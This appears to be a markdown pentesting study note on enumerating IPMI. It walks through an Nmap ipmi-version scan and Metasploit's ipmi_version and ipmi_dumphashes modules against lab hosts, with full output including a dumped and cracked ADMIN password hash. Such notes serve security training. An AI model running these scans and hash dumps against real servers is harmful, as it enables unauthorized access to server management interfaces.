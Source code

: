 ```yaml
---
id: Enumeration
aliases: []
tags:
  - Networking/Services/IPMI/Enumeration
---
```


# Enumeration

<!-- Nmap {{{-->
## Nmap

Footprint the service with the `ipmi-version`
[[Nmap Scripting Engine|NSE]] script

```sh
sudo nmap -sU --script ipmi-version -p 623 <target_domain>
```

<!-- }}} -->

<!-- Example {{{-->
> [!example]-
>
> ```sh
> sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
> ```
> ```sh
> Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
> Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
> Host is up (0.00064s latency).
>
> PORT    STATE SERVICE
> 623/udp open  asf-rmcp
> | ipmi-version:
> |   Version:
> |     IPMI-2.0
> |   UserAuth:
> |   PassAuth: auth_user, non_null_user
> |_  Level: 2.0
> MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)
>
> Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
> ```
>
> - [[General|IPMI]] version 2.0 is listening on port `623`/UDP
>
<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

### Version Scan

[IPMI Information Discovery](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)
can be used to discover host information through IPMI Cheannel Auth probes

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_version
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_version
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_version):
>
>    Name       Current Setting  Required  Description
>    ----       ---------------  --------  -----------
>    BATCHSIZE  256              yes       The number of hosts to probe in each set
>    RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT      623              yes       The target port (UDP)
>    THREADS    10               yes       The number of concurrent threads
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > run
> ```
>
> ```sh
> [*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
> [+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Dumping Hashes {{{-->
## Dumping Hashes

Retrieve [[General|IPMI]] hashes with the Metasploit
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
module

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):
> 
>    Name                 Current Setting                                                    Required  Description
>    ----                 ---------------                                                    --------  -----------
>    CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
>    OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
>    OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
>    PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
>    RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT                623                                                                yes       The target port
>    THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
>    USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
> ```
> ```sh
> [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
> [+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
>
> This flaw is a critical component of the [[General|IPMI]] specification
> ```
<!-- }}} -->

<!-- }}} -->
